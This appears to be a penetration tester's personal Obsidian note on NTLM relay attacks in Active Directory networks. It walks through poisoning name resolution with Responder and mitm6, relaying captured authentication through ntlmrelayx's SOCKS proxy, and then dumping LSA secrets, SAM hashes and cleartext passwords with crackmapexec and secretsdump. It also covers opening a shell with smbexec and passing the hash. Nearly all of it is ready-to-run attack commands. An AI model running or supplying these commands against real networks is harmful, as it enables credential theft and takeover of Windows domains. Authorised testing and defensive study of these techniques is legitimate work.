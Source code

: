 ```yaml
---
creation date: September 8th 2022
last modified date: September 8th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[ntlmrelayx.py]]  
___

## Socks Proxy Relaying

Configure Responder with `SMB` and `HTTP` turned off in `/etc/responder/Responder.conf`

``````
[Responder Core]

; Servers to start
SQL = On
SMB = Off
RDP = On 
Kerberos = On
FTP = On 
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On  
LDAP = On
``````

````
sudo responder -I eth0 -r -d -w
````


Make sure /etc/proxychains.conf is configured to use port 1080

Find machines with SMB signing disabled

```
cme smb <networkIP>/<cidr> --gen-relay-list relayTargets.txt
```

Run ntlmrelayx.py

``````

sudo python3 ntlmrelayx.py -tf ~/Desktop/targets -socks -smb2support

``````

^a8df20

type `socks` into our relay prompt to see the active connections available.

Look for a connection that has AdminStatus set to true.

Instead of abusing LLMNR and other older protocols, we can use `mitm6` to abuse IPv6. The idea is to reply to DHCPv6 requests made by machines on the network to set the attacker IP as the default IPv6 DNS server in order to force victims to authenticate against our attacker machine(you have to turn off dns in responder.conf). ^331793

More details here: [[mitm6.py]]

```
sudo mitm6 -d testdomain.local
```

Use proxychains with crackmapexec to use these sessions. The password we provide is arbitrary since the SOCKS proxy is going to use the session we gained from relaying auth previously. The IP and user should come from the output of running socks in ntlmrelayx.py.

`proxychains cme smb 10.1.1.206 -u user -p pass -d Domain --lsa

Using the --lsa will dump hashes and clear text passwords from registry secrets. Using --sam will obtain local account hashes.


secretsdump.py from impacket will also dump local hashes

```
proxychains ./secretsdump.py vulnerable/Administrator@192.168.48.230
```

Or you can get a shell with Impackets smbexec
```
proxychains smbexec.py <domain>/<relayedUser>@192.168.10.60
```



Validate any clear text passwords or hashes that were cracked work using crackmapexec. 

`proxychains cme smb 10.1.1.1/24 -u user -p pass -d Domain


You can also passthehash with crackmapexec if you get ntlmv1 hashes.


`proxychains cme smb 10.1.1.1/24 -u user -H hashgoeshere -d Domain


You can use bloodhound to see if those accounts have local admin on any other machine and dump lsa and sam from them. 

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 8th 2022 (10:12 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
